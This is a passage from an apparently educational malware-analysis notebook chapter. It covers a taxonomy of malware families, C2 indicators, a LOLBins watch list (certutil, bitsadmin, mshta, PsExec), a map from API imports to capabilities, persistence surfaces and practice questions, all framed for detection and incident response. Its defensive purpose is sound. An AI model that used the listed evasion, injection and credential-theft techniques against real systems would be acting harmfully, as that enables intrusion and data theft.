
**C2 tells:** periodic jittered beaconing to a stable host; NXDOMAIN bursts (DGA); connections to newly-registered/low-rep domains; known malicious TLS (JA3/JA4); send/receive byte ratio skewed toward exfil.

**Botnet C2 topologies:** centralized/star (fragile, sinkhole-able) · P2P (resilient, no single node) · DGA + fast-flux (defeat static blocklists).

**LOLBins to watch:** `powershell -enc`, `mshta`, `wscript`/`cscript`, `rundll32`, `regsvr32`, `certutil`, `bitsadmin`, `wmic`, `schtasks`, `PsExec`.

**Anti-analysis red flags (why a sample looks "clean"):** VM/sandbox checks · human-presence checks · long sleeps/time bombs · geofencing · anti-debug · heavy packing. Counter: behavioral EDR on real hosts, not gateway detonation alone.

**Delivery-tier evasion:** ISO/IMG/ZIP/LNK containers strip mark-of-the-web; HTML smuggling reconstructs the payload in-browser; macro-block pushed attackers to these. Detect by container→script→network lineage.

**Static triage toolkit:** `file` (true type) · `sha256sum` (identity) · `strings -e l` (intent) · `pefile` imports (capability) · section entropy ≈8.0 (packed).

**Import → capability quick map:**
```
CryptEncrypt/CryptGenKey        -> ransomware
InternetOpenUrl/WinHttp/socket  -> downloader / C2
SetWindowsHookEx/GetAsyncKeyState -> keylogger
VirtualAllocEx/WriteProcessMemory/CreateRemoteThread -> injector/loader
RegSetValueEx (Run key)         -> persistence
```

**Recovery reality by purpose:** infostealer → rotate all creds/sessions; wiper → backups only; rootkit → memory/offline forensics, possibly rebuild hardware; ransomware → offline immutable backups (+ handle the leak).

**Static triage flow (no execution):**
```
file  -> true type (ignore extension)
sha256sum -> identity; look up hash, don't upload sensitive samples
strings -e l -> intent (URLs, commands, ransom text)
pefile imports -> capability (crypto? net? hooks? injection?)
section entropy ~8.0 -> packed/obfuscated
=> fill the 4 axes -> predict behavior -> drive response
```

**Persistence audit surfaces (IR):** Run keys · Scheduled Tasks · Services · Startup folder · WMI subs · DLL hijack (Win) — cron · systemd · bashrc · LD_PRELOAD · authorized_keys · LKM (Linux) — LaunchAgents/Daemons (macOS) — browser extensions · OAuth grants (cloud).

## Master Family Reference

A consolidated one-look reference across every family in this chapter — purpose, propagation, defining behavior, primary detection, and the ATT&CK technique to map it to:

| Family | Propagation | Defining behavior | Primary detection | ATT&CK |
|---|---|---|---|---|
| File-infecting virus | Infected host file | Modifies executables, alters entry point | File integrity, AV, entropy | T1027 |
| Macro virus | Malicious document | Auto-run VBA fetches payload | Office→script lineage, macro-block | T1566.001 |
| Worm | Self, network | Mass internal connections, self-copy | East-west anomalies, segmentation | T1210 |
| Trojan (generic) | Disguise, user runs | Legit-looking, malicious on run | Delivery chain, reputation | T1204 |
| Backdoor | Dropped | Covert re-entry channel | Listener/beacon detection | T1505 |
| RAT | Dropped/trojan | Interactive C2, jittered beacon | Beaconing, rare outbound | T1219 |
| Banking trojan | Trojan | Web-injects, credential theft | Browser hooking, C2 | T1185 |
| Ransomware | Dropped (post-intrusion) | Mass encrypt + backup deletion | vssadmin, entropy, canary | T1486 |
| Wiper | Dropped | Mass overwrite/MBR corruption | Mass writes, MBR tamper | T1485/T1561 |
| Rootkit (user) | Dropped | API hooking to hide artifacts | Cross-view, EDR | T1014 |
| Rootkit (kernel) | Dropped/BYOVD | Ring-0 stealth, DKOM | Memory forensics, HVCI | T1014 |
| Bootkit/UEFI | Dropped | Pre-OS persistence | Secure/Measured Boot, TPM | T1542 |
| Dropper | Delivered | Writes embedded payload to disk | Process lineage, new file exec | T1105 |
| Downloader | Delivered | Fetches remote payload | Rare outbound, certutil/bitsadmin | T1105 |
| Loader | Delivered | In-memory execution of payload | Injection APIs, memory scan | T1055 |
| Infostealer | Trojan/loader | Reads cred stores, bulk exfil | Cred-store access + exfil | T1555/T1539 |
| Keylogger | Module/trojan | Input hooks, staged logs | SetWindowsHookEx use | T1056.001 |
| Spyware | Trojan/RAT | Screen/mic/cam capture | Capture APIs, C2 | T1113/T1125 |
| Cryptominer | Loader/worm | Sustained CPU/GPU, pool traffic | Resource + pool domains | T1496 |
| Botnet node | Worm/trojan | Coordinated C2, DGA/fast-flux | Beacon, NXDOMAIN bursts | T1071 |

Persistence mechanisms to memorize (where malware hides to survive reboot) — the autostart surfaces you audit during IR:

- **Windows:** Run/RunOnce registry keys, Scheduled Tasks, Services, Startup folder, WMI event subscriptions, DLL search-order hijacking, COM hijacking, image-file-execution-options.
- **Linux:** `cron`/`at`, systemd units and timers, `~/.bashrc`/profile scripts, `LD_PRELOAD`/`ld.so.preload`, init scripts, SSH `authorized_keys`, kernel modules.
- **macOS:** LaunchAgents/LaunchDaemons, login items, configuration profiles, cron.
- **Cross-cutting:** malicious browser extensions, mail forwarding/OAuth grants (cloud persistence from the SE notebook), and firmware/bootkit (deepest).

## Common Pitfalls

- **Treating the families as one flat, exclusive list.** They're independent axes; a sample is a trojan *and* a RAT *and* fileless *and* staged simultaneously.
- **Trusting file extensions.** Use `file`/magic bytes; the extension is attacker-controlled.
- **Running an unknown sample outside a contained VM.** Analysis happens snapshotted, network-isolated; never on a production or bridged host.
- **Assuming on-disk AV covers you.** Fileless and LOLBin malware leaves little to scan — you need behavioral EDR and script/AMSI logging.
- **Believing online backups are enough for ransomware.** Attackers hunt and delete them pre-encryption; backups must be offline/immutable and tested.
- **Trusting a compromised host's own tools when a rootkit is suspected.** The OS may be lying; go to memory/offline analysis.
- **Blocklisting LOLBins outright.** They're signed, dual-use OS tools used by legit admin; detect by context/lineage, constrain with app control instead.
- **Stopping at "it's ransomware."** By the time you see encryption, a loader, stealer, and C2 already ran — hunt the whole modular chain and the initial access.
- **Ignoring the credential/cookie theft.** An infostealer means MFA-bypassing session cookies may already be stolen — rotate sessions, not just passwords.
- **Confusing a wiper with ransomware.** Paying a wiper gets you nothing; there is no key. Classify purpose before assuming recoverability.
- **Relying on gateway sandboxing alone.** Sandbox-aware malware sleeps through or detects detonation and only runs on real hosts — pair detonation with behavioral EDR.
- **Assuming "server = safe."** Linux miners and ESXi ransomware make non-Windows workloads prime targets; cover them with fit-for-platform telemetry.
- **Confusing AV names with identity.** The same sample gets different vendor names; cross-reference on hash, and treat `!ml`/`.gen` as heuristic, not authoritative.
- **Blocking a canary-file alert as "noise."** A single write to a decoy is one of the earliest, highest-fidelity ransomware triggers you'll ever get — wire it to auto-isolation.
- **Letting attribution drive the response.** "Who did it" is uncertain and slow; classify the *behavior*, contain it, and leave attribution to threat intel afterward.
- **Forgetting persistence during eradication.** A cleaned payload with a surviving Run key, scheduled task, or OAuth grant is a re-infection waiting to happen — audit every autostart surface.

## Practice Labs & Resources

- **TryHackMe** — "Intro to Malware Analysis," "MAL: Malware Introductory," "Malware Analysis" path, "Sysmon," "Windows Event Logs," and "MITRE" rooms for hands-on classification and telemetry.
- **MalwareBazaar / abuse.ch** — study *metadata and reports* of real families (tags, YARA, behavior) to see the axes in real samples; only detonate in a proper isolated lab.
- **REMnux** and **FLARE-VM** — purpose-built isolated analysis distributions for the static (and later dynamic) triage in Part 12.
- **`pefile`, `Detect It Easy (DIE)`, `CAPA`, `YARA`, `Volatility`** — learn each: PE parsing, packer ID, capability detection, signature authoring, and memory forensics respectively.
- **MITRE ATT&CK** — map every family to techniques (T1486 Data Encrypted for Impact, T1055 Process Injection, T1056 Input Capture, T1071 Application-Layer C2, T1014 Rootkit, T1105 Ingress Tool Transfer).
- **The No More Ransom project** — see where free decryptors exist (and understand *why* they exist: crypto mistakes) — reinforcing Part 5's mechanics.
- **picoCTF / other CTF "reversing" and "forensics" categories** — practice reading binaries and memory images, the same muscles as malware triage.
- **`CAPA` (Mandiant)** — automatically identifies a binary's *capabilities* (encrypt files, inject, persist) mapped to ATT&CK — a fast bridge from static triage to the four-axis classification.
- **`oletools` (`olevba`, `oleid`)** — extract and analyze macros from Office documents safely, the direct tool for the macro-virus delivery vector in Part 3.
- **Any.Run / Hatching Triage / Joe Sandbox (public reports)** — read real dynamic-analysis reports (Part 14, Step 7) to practice turning behavior into classification and response.
- **MITRE ATT&CK Navigator** — build a coverage heatmap of which techniques your telemetry can and cannot see; the practical output of Part 15.
- **"Practical Malware Analysis" (Sikorski & Honig)** — the standard textbook for the static and dynamic techniques introduced in the lab, with hands-on (safe) exercises.

**A note on responsible practice:** everything above is analysis and defense. When you reach the payload-construction chapters, keep the same discipline the whole notebook insists on — isolated labs, benign/defanged samples, your own systems or explicit written authorization, and no artifact that could be deployed against a target you don't own. The skill being built is *understanding and stopping* malware; that is what makes it valuable and lawful.

Practice questions to test yourself:

1. Classify along all four axes: "a malicious Excel macro that, when opened, uses PowerShell to download and reflectively load a remote-control agent that beacons to a rotating set of algorithmically-generated domains." Name the concrete detection opportunity at each stage.
2. Explain precisely why offline, immutable backups defeat the *encryption* half of ransomware but not the *double-extortion* half, and what additional control addresses the leak threat.
3. A host shows a normal process list in Task Manager, but network logs show steady outbound beaconing from that host. Give two hypotheses (one rootkit, one not) and the tool/technique that distinguishes them.
4. You triage an unknown PE with almost no readable strings, only three imports, and a `.text` section at 7.97 bits/byte entropy. What single word describes it, what does that imply about your static analysis, and what's your next step?
5. Distinguish a dropper from a downloader from a stager, and explain why the modern criminal ecosystem overwhelmingly favors small downloaders/loaders over monolithic payloads — give both an evasion reason and an economic reason.
6. A sandbox report shows a sample that made no network connections, wrote no files, and exited after 40 seconds. Give two distinct reasons this might happen for a sample that is *actually* malicious, and how a defender should treat the "clean" verdict.
7. Your EDR flags `regsvr32.exe` loading a remote scriptlet on one host. Walk through why this is suspicious despite `regsvr32` being a signed Microsoft binary, which taxonomy part it belongs to, and the next three investigative steps.
8. An infostealer ran on a laptop for six seconds and self-deleted. The user says "but I have MFA, so I'm fine." Explain precisely why that reasoning is wrong and list what must be rotated.

**Why This Matters (revisited):** if these eight questions feel answerable, you have the mental model the rest of the notebook assumes. Every later chapter — payload construction, AV/EDR evasion, AMSI bypass, C2, and their defensive mirrors — is a deep dive into one node or edge of the modular kill chain in Part 11. Taxonomy first is what makes those deep dives navigable rather than a blur of tool names.

The next chapter moves from taxonomy to construction: **building payloads and droppers in a lab-scoped setting** — how the delivery tier from Part 7 is actually assembled and, just as importantly, the telemetry it generates for defenders — using benign, contained examples that make the concepts concrete without producing anything deployable against a real target.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/redteam-malware-evasion/01-malware-taxonomy-trojans-rats-ransomware-rootkits-and-loaders), with comments and the latest edits.*
